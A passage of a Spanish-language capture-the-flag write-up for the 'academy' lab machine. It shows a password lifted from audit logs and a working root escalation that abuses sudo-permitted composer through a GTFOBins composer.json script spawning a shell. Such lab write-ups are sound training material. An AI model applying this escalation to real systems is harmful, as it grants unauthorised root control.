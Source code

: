 El informe TTY revela que el usuario `mrb3n` inició sesión con la contraseña `mrb3n_Ac@d3my!` utilizando `su`. 

Entonces, simplemente cambiamos al usuario `cry0l1t3` con su respectiva contraseña.

```bash
cry0l1t3@academy:/var/log/audit$ su mrb3n
Password: 
$ id
uid=1001(mrb3n) gid=1001(mrb3n) groups=1001(mrb3n)
```

## Escalación de privilegios

---

Al ejecutar `sudo -l`, se revela que el usuario `mrb3n` tiene permiso para ejecutar el binario "`composer`" como **root**.

```bash
mrb3n@academy:/var/log/audit$ sudo -l
[sudo] password for mrb3n: 
Matching Defaults entries for mrb3n on academy:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User mrb3n may run the following commands on academy:
    (ALL) /usr/bin/composer
```

Hay una entrada en [GTFOBins](https://gtfobins.github.io/gtfobins/composer/#sudo) para composer. Se trata de crear un archivo `composer.json` con una propiedad "scripts". 

![composer](composer.png)

Después de introducir estos comandos, logramos obtener un shell como root con éxito y podemos acceder a la flag de root.

```bash
mrb3n@academy:/var/log/audit$ TF=$(mktemp -d)
mrb3n@academy:/var/log/audit$ echo '{"scripts":{"x":"/bin/sh -i 0<&3 1>&3 2>&3"}}' >$TF/composer.json
mrb3n@academy:/var/log/audit$ sudo composer --working-dir=$TF run-script x
PHP Warning:  PHP Startup: Unable to load dynamic library 'mysqli.so' (tried: /usr/lib/php/20190902/mysqli.so (/usr/lib/php/20190902/mysqli.so: undefined symbol: mysqlnd_global_stats), /usr/lib/php/20190902/mysqli.so.so (/usr/lib/php/20190902/mysqli.so.so: cannot open shared object file: No such file or directory)) in Unknown on line 0
PHP Warning:  PHP Startup: Unable to load dynamic library 'pdo_mysql.so' (tried: /usr/lib/php/20190902/pdo_mysql.so (/usr/lib/php/20190902/pdo_mysql.so: undefined symbol: mysqlnd_allocator), /usr/lib/php/20190902/pdo_mysql.so.so (/usr/lib/php/20190902/pdo_mysql.so.so: cannot open shared object file: No such file or directory)) in Unknown on line 0
Do not run Composer as root/super user! See https://getcomposer.org/root for details
> /bin/sh -i 0<&3 1>&3 2>&3
# whoami
root
# cd /root
# cat root.txt
0627e87322b0918f****************
```

!Happy Hacking¡

